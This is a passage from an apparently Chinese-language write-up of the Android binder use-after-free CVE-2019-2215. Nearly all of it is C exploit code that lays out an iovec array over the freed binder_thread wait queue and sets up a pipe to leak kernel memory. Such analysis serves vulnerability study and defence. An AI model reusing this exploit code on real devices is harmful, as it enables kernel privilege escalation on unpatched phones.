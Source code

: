 ![heap layout for leaking task](/images/cve20192215/heap_layout_leaking_task.jpg)

相关代码如下：

```cpp
#define BINDER_THREAD_EXIT 0x40046208ul
// NOTE: we don't cover the task_struct* here; we want to leave it uninitialized
#define BINDER_THREAD_SZ 0x190
#define IOVEC_ARRAY_SZ (BINDER_THREAD_SZ / 16) //25
#define WAITQUEUE_OFFSET 0xA0
#define IOVEC_INDX_FOR_WQ (WAITQUEUE_OFFSET / 16) //10

// Alloc a userspace memory which will satisfy wait.lock == 0
// and iovec.base point to userspace
dummy_page_4g_aligned = mmap((void*)0x100000000UL, 0x2000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);

// Forming iovec[25]
struct iovec iovec_array[IOVEC_ARRAY_SZ];
memset(iovec_array, 0, sizeof(iovec_array));

iovec_array[IOVEC_INDX_FOR_WQ].iov_base = dummy_page_4g_aligned; /* spinlock in the low address half must be zero */
iovec_array[IOVEC_INDX_FOR_WQ].iov_len = 0x1000; /* wq->task_list->next */
iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base = (void *)0xDEADBEEF; /* wq->task_list->prev */
iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len = 0x1000;

int b;

int pipefd[2];
if (pipe(pipefd)) err(1, "pipe");
if (fcntl(pipefd[0], F_SETPIPE_SZ, 0x1000) != 0x1000) err(1, "pipe size");
static char page_buffer[0x1000];
```
